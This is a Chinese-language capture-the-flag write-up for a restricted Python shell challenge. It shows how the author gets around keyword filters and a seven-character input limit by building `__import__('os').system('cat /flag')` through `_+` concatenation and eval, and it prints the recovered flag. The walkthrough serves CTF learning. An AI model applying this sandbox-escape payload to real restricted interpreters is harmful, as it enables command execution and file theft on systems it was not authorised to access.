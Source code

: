 # 题目描述

flag在/flag，每个容器只支持同时连接一个客户端。部分指令可能导致容器无响应，如果出现这样的情况请重启题目环境

# 解题思路

下发题目，得到一个nc连接的地址，用nc命令连接

![image-20240221135952641](assets/pyshell/img/image-20240221135952641.png)

可以看到是一个类似的`shell`窗口，查询得知这是CTF中的伪`python shell`题目；

> 伪Python shell是指一种CTF（Capture The Flag）中的题目类型，它要求我们在一个受限制的Python环境中执行代码，从而获取flag。伪Python shell的特点和作用是考察我们对Python语言的熟悉程度和逆向能力，以及如何利用Python的一些特性来绕过沙箱限制。解决这样的CTF题目的方法有很多，具体取决于题目的限制条件和漏洞点，一般需要利用字符串拼接、类静态方法、反序列化、系统命令等技巧来构造有效的payload。
>



输入一些命令发现全是输出`nop`，根据题目描述，`flag`在`' /flag '`中，所以我们的思路是思路是通过输入python代码执行`shell`命令但是题目过滤了这些命令（如`import print`等）。并且一次发现只能输入7个字符（包括`''`）

![image-20240221141236205](assets/pyshell/img/image-20240221141236205.png)

所以我们换一个查询思路：`__import__('os').system('cat /flag')`

并且因为题目限制了每次输入的字符数，所以我们需要通过`_+`来连接每次输入的代码：

```python
'__imp'
_+'ort'
_+'__('
_+"'os"
_+"')."
_+"sys"
_+"tem"
_+"('c"
_+"at "
_+"/fl"
_+"ag'"
_+")"
eval(_)
```

> '_'+ 表示在下一个字符串拼接操作之前对字符串进行了临时的拼接操作。例如，代码中的 `_+'ort'` 实际上是 `_ + 'ort'`，表示将上一个字符串 `_` 与 `'ort'` 进行拼接。这种形式的字符串拼接操作用于在代码中以一种连贯的方式构建出整个字符串。

得到`flag{80f772f1-6740-4571-87ba-cf6b3db34581}`

![image-20240221141724401](assets/pyshell/img/image-20240221141724401.png)

